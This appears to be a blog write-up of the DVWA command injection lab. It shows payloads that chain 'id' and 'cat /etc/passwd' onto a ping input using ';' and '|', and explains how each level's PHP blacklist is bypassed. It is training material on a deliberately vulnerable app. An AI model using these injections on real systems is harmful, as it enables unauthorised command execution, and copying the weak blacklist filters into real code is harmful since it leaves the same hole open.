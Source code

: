 +++
date = '2025-10-16T14:40:01+07:00'
draft = false
title = 'DVWA Command Injection Low/Medium/High Security'
tags = ['DVWA']
description = 'Get access to server resources through ping function.'

[cover]
  image = '/images/posts/dvwa-command-injection.jpg'
  alt = 'DVWA Command Injection'
  caption = 'DVWA Command Injection'
  relative = false
+++

## Description

-   **Vulnerability:** Command injection
-   **Impact:** Get access to server resources through `ping` function.

---

## LOW Security Level

This LOW level ping function doesn't have any filter or regex to check the input we enter for them. Therefore, we can leverage this vulnerability to execute additional commands to the server.
Example:

```
1.1.1.1; id
```

This payload will `ping 1.1.1.1` but also run `id`. The result is:

```bash
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1: icmp_seq=1 ttl=52 time=63.0 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=52 time=93.5 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=52 time=76.8 ms
64 bytes from 1.1.1.1: icmp_seq=4 ttl=52 time=50.4 ms

--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 50.401/70.910/93.461/16.016 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![Guide image](/images/posts/dvwa-command-injection-1.png)

We can see that we are `www-data` since this is the role that host the website. Try payload `1.1.1.1; cat /etc/passwd`. This should be the same `/etc/passwd` content on your computer.

## MEDIUM Security Level

This MEDIUM level has a blacklist:

```php
// Set blacklist
$substitutions = array(
    '&&' => '',
    ';'  => '',
);

// Remove any of the characters in the array (blacklist).
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

This blacklist will prevent us from using the payload in LOW security level. However, instead of `&&` and `;` we can use other keywords which is `|`. The payload is:

```bash
| id

# or

| cat /etc/passwd
```

It should show the same result as LOW security level.

![Guide image](/images/posts/dvwa-command-injection-1.png)

## HIGH Security Level

This is the new blacklist

```php
// Set blacklist
$substitutions = array(
    '||' => '',
    '&'  => '',
    ';'  => '',
    '| ' => '',
    '-'  => '',
    '$'  => '',
    '('  => '',
    ')'  => '',
    '`'  => '',
);
```

You can see that it prevent a bunch of operators however focus on this line:

```php
'| ' => '',
```

It just blacklist the `'| '` so `'|'` will not be prevented. We can leverage the payload:

```
1.1.1.1|id

1.1.1.1|cat /etc/passwd
```

![Guide image](/images/posts/dvwa-command-injection-1.png)

## Resources

-   https://www.scribd.com/doc/2530476/Php-Endangers-Remote-Code-Execution
-   http://www.ss64.com/bash/
-   http://www.ss64.com/nt/
-   https://owasp.org/www-community/attacks/Command_Injection
